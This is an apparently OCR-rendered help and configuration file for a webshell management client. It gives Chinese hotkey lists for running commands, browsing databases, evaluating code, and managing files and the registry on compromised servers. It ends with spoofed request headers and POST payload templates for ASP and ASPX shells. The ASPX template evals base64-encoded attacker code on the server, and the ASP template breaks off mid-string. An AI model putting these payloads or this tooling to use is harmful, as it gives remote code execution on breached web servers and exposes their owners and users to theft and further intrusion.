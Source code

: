 快捷键：
	SHELL：
		INSERT	添加SHELL
		DELETE	删除SHELL (在列表框上)
		RETURN	编辑SHELL (在列表框上)
		CTRL+F	搜索
		CTRL+C	复制SHELL (在列表框上)
	
	CMD：
		CTRL+A	全选
		CTRL+C	复制
		CTRL+V	粘贴
		VK_UP	上一条命令
		VK_DOWN	下一条命令
	
	DATA：
		CTRL+C	复制 (在树形框上)
		CTRL+C	复制 (在列表框上)
		F2		数据库配置
	
	EVALCODE：
		CTRL+A	全选
		F5		执行
	
	FILE：
		VK_BACK	退格，返回上一层
		F5		刷新
		F2		重命名 (在列表框上)
		DELETE	多选，删除文件 (在列表框上)
		CTRL+C	复制文件 (在列表框上)
		CTRL+X	剪切文件 (在列表框上)
		CTRL+V	粘贴文件 (在列表框上)
	
	FILESAVE：
		CTRL+F	搜索
		CTRL+A	全选
		CTRL+S	保存
	
	REGISTRY：
		F5		刷新

/*
	[Header]
	User-Agent=Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
	Referer=1
	X-Forwarded-For=1
	[/Header]
	[Headers]
	Accept-Language: en-us
	Content-Type: application/x-www-form-urlencoded
	[/Headers]
	[POST]
	ASP_POST_DATA==Execute("Execute(""On+Error+Resume+Next:Response.Clear:

	ASPX_POST_DATA==Response.Write("->|");var err:Exception;try{eval(System.Text.Encoding.GetEncoding(%nPageCode%).GetString(System.Convert.FromBase64String("%szBase64EvalCode%")),"unsafe");}catch(err){Response.Write("ERROR:// "%2Berr.message);}Response.Write("|<-");Response.End();
